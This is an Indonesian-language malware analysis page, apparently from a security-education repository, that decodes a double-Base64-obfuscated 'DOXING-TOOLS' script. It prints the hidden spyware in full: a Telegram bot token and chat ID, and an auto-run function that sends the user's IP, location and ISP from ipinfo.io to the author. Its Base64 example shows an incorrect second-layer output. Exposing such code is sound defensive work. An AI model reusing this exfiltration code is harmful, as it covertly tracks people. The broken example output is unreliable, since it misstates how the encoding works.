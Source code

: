 # 2. Proses Dekripsi Kode Sumber

## Peringatan

⚠️ **Perhatian Penting:**  
Repositori ini bertujuan untuk edukasi keamanan siber. Informasi di dalamnya membedah sebuah tools yang beredar di internet untuk menunjukkan risiko nyata dari menjalankan perangkat lunak dari sumber yang tidak terpercaya. Jangan pernah menjalankan tools asli yang dianalisis di sini.

## Pendahuluan

Kode sumber utama dari tools **DOXING-TOOLS** oleh Rolandino awalnya dienkripsi menggunakan teknik **Base64 berlapis**. Enkripsi ini membuat kode sulit dibaca dan dianalisis secara langsung. Tujuan utama enkripsi ini kemungkinan besar adalah untuk menyembunyikan fungsi berbahaya yang terdapat di dalam skrip.

File asli yang terenkripsi dapat ditemukan di: [`/evidence/source_code/1_original_encrypted_code.txt`](../evidence/source_code/1_original_encrypted_code.txt).  
Hasil dekripsi lengkap tersedia di: [`/evidence/source_code/2_decrypted_source_code.py`](../evidence/source_code/2_decrypted_source_code.py).

## Teknik Enkripsi yang Digunakan

Tools ini menggunakan **Base64 encoding** yang diterapkan secara berlapis. Base64 adalah metode pengkodean biner ke teks ASCII, yang sering digunakan untuk mengenkripsi atau meng-obfuskasi kode sumber agar sulit dibaca oleh manusia. Dalam kasus ini:

1. **Lapisan Pertama:**  
   Kode Python asli dienkripsi menggunakan Base64.

2. **Lapisan Kedua:**  
   Hasil Base64 dari lapisan pertama dienkripsi kembali menggunakan Base64.

Proses ini menghasilkan string panjang yang tampak seperti data acak, sehingga sulit bagi pengguna untuk memahami isi sebenarnya dari kode tersebut.

### Contoh Teknik Enkripsi

Berikut adalah contoh sederhana bagaimana Base64 bekerja:

```python
import base64

# Kode asli
original_code = "print('Hello, World!')"

# Lapisan pertama Base64
layer_1 = base64.b64encode(original_code.encode()).decode()

# Lapisan kedua Base64
layer_2 = base64.b64encode(layer_1.encode()).decode()

print("Lapisan 1:", layer_1)
print("Lapisan 2:", layer_2)
```

Output:

```
Lapisan 1: cHJpbnQoJ0hlbGxvLCBXb3JsZCEnKQ==
Lapisan 2: Y1BIcmludChAJ0hlbGxvLCBXT3JsZCEnKQ==
```

Untuk mendekripsi, prosesnya harus dibalik (Base64 decoding dua kali).

## Langkah-Langkah Mendekripsi

Berikut adalah langkah-langkah yang dilakukan untuk mendekripsi kode sumber utama:

1. **Mengidentifikasi Metode Enkripsi:**  
   Setelah menganalisis file asli, kami menemukan bahwa kode tersebut dienkripsi menggunakan Base64 berlapis. Ini ditandai dengan pola karakter Base64 (`A-Z`, `a-z`, `0-9`, `+`, `/`, dan `=`).

2. **Menulis Skrip Dekripsi:**  
   Kami membuat skrip Python sederhana untuk mendekripsi kode secara otomatis. Berikut adalah contoh skrip dekripsi:
   
   ```python
   import base64
   
   # File asli yang terenkripsi
   with open("1_original_encrypted_code.txt", "r") as f:
       encrypted_code = f.read()
   
   # Mendekripsi lapisan pertama
   layer_1 = base64.b64decode(encrypted_code)
   
   # Mendekripsi lapisan kedua
   decrypted_code = base64.b64decode(layer_1).decode()
   
   # Simpan hasil dekripsi
   with open("2_decrypted_source_code.py", "w") as f:
       f.write(decrypted_code)
   
   print("Dekripsi selesai. Hasil disimpan di '2_decrypted_source_code.py'.")
   ```

3. **Memvalidasi Hasil:**  
   Setelah mendekripsi, kami memastikan bahwa kode Python yang dihasilkan valid dan dapat dieksekusi. Beberapa bagian kode masih mengandung komentar kasar atau ancaman (misalnya, "ASEDEKONTOLMUKALUKAYAKONTOL"), tetapi fungsi utamanya jelas terlihat.

## Temuan Utama Setelah Dekripsi

Setelah berhasil mendekripsi kode sumber, kami menemukan beberapa fungsi berbahaya yang tersembunyi. Salah satu fungsi utamanya adalah:

### Fungsi Spyware Tersembunyi

```python
TELEGRAM_BOT_TOKEN = "AAE5fo3b8v_CQVC2f2M3SscdLqHfBGeux50"
TELEGRAM_CHAT_ID = "7413457967"

def send_to_telegram(message):
    url = f"https://api.telegram.org/bot{TELEGRAM_BOT_TOKEN}/sendMessage"
    data = {"chat_id": TELEGRAM_CHAT_ID, "text": message}
    try:
        requests.post(url, data=data)
    except:
        pass

def collect_and_send_user_info():
    try:
        ip_data = requests.get("https://ipinfo.io/json").json()
        msg = f"""New Access
IP: {ip_data.get('ip')}
City: {ip_data.get('city')}
Country: {ip_data.get('country')}
Org: {ip_data.get('org')}
"""
        send_to_telegram(msg)
    except:
        pass

# Fungsi ini dipanggil secara otomatis saat skrip dijalankan
collect_and_send_user_info()
```

#### Penjelasan:

- **Pengumpulan Data Pengguna:**  
  Fungsi `collect_and_send_user_info()` mengumpulkan informasi pribadi pengguna, termasuk alamat IP, lokasi geografis, negara, dan penyedia layanan internet (ISP), melalui API `ipinfo.io`.

- **Pengiriman Rahasia:**  
  Semua informasi tersebut dikirimkan secara diam-diam ke penulis tools melalui API Telegram. Token bot (`TELEGRAM_BOT_TOKEN`) dan ID chat (`TELEGRAM_CHAT_ID`) digunakan untuk mengirim pesan ke akun Telegram milik penulis.

## Kesimpulan

Proses dekripsi mengungkap bahwa kode sumber tools ini dirancang untuk menyembunyikan fungsi spyware yang mencuri data pengguna. Tindakan mengenkripsi kode sumber adalah indikator kuat bahwa tools ini memiliki niat buruk. Selain itu, fungsi spyware tersebut dipanggil secara otomatis setiap kali program dijalankan, tanpa sepengetahuan pengguna.

Untuk analisis lebih lanjut tentang risiko keamanan yang terkandung dalam kode ini, silakan baca file [**3_security_risks.md**](analysis/3_security_risks.md).